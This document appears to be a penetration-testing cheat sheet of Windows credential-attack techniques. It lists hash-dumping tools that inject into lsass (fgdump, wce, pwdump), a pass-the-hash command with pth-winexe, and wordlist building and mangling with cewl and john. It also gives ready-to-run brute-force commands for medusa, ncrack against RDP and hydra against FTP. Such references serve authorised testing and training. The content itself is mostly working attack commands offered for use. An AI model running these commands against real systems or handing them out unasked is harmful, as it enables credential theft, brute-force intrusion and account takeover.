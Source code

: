 # Windows Tools
## fgdump.exe
Injects dll code into lsass process with hash cracking code.

Dumps Windows Password Hashes (requires Administrative Privs)

## wce.exe (Windows Credential Editor)
wce64.exe for x64

wce.exe for x86


## pwdump.exe

Injects dll code into lsass process with hash cracking code.

Dumps Windows Password Hashes (requires Administrative Privs)

## Crunch
See man page for examples

## Passing the Hash
Capture NT/LM hash

```
export SMBHASH=<NT/LMHASH>
pth-winexe -U administrator% //10.x.x.x cmd
```

## Password Profiling
```
cewl www.google.com -m 6 -w /root/Desktop/google-words.txt

# john tricks
# add 2 numbers to the end of every password
$[0-9]$[0-90]  # (/etc/john/john.conf)
john --wordlist=/root/Desktop/google-words.txt --rules --stdout | > /root/Desktop/mangled.txt
```

# Online Attacks

## Medusa
```
medusa -h 10.x.x.x -u admin -P wordlist.txt -M http -m DIR:/admin -T 20     # for htaccess file protected page
```
## Ncrack (reliable for rdp)
```
ncrack -v -f --user administrator -P wordlist.txt rdp://10.x.x.x,CL=1
```

## Hydra (can be used for lots of online schemes)
```
hydra -l admin -P wordlist.txt -v 10.x.x.x ftp
```

## LM/NTLM
xp/2k3 and prior use LM

vista/2k8 and newer use NTLM
